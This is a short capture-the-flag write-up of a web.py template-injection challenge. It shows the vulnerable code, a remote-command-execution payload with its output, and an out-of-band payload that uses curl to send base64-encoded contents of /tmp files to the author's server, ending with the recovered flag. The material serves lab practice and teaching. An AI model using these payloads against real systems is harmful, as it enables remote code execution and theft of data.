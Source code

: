 A simple SSTI challenge
```py
import web
from web import form
web.config.debug = False

FLAG = open("/tmp/flag.txt").read()
.
.
.
    def POST(self):
        f = temptation_Form()
        if not f.validates():
            return render.index(f)
        i = web.input()
        temptation = i.temptation
        if 'flag' in temptation.lower():
            return "Too tempted!"
        try:
            temptation = web.template.Template(f"Your temptation is: {temptation}")()
        except Exception as  e:
            return "Too tempted!"
        if str(temptation) == "FLAG":
            return FLAG
        else:
            return "Too tempted!"
application = app.wsgifunc()
.
.
.
```

I first tested the exploit on my local machine for better visualization.

I modified the code as follows:
```py
temptation = web.template.Template(f"Your temptation is: {temptation}")()
print(str(temptation) == "FLAG")
```
When I used the payload ${7*7}, the output was:
```
Your temptation is: 49
False
```
Next, I attempted command execution using the payload temptation=$`{__import__('os').system('id')}` and received:
```
uid=1000(nguyenlong05) gid=1000(nguyenlong05) groups=1000(nguyenlong05),4(adm),24(cdrom),27(sudo),30(dip),44(video),46(plugdev),100(users),114(lpadmin),124(wireshark),995(input)
Your temptation is: 0

False
```

To extract the flag, I used an oob technique with the following payload: `temptation=${__import__('os').system('curl+https://my_sever_ip_address/$(cat+/tmp/*|+base64)')}`

```
127.0.0.1:41184 - - [02/Feb/2025 14:05:48] "HTTP/1.1 GET /RU5Pe1QzTV9QbDRUXzNTXzRyM19TM2NVcmUhIX0=" - 404 Not Found
```
Flag: `ENO{T3M_Pl4T_3S_4r3_S3cUre!!}`
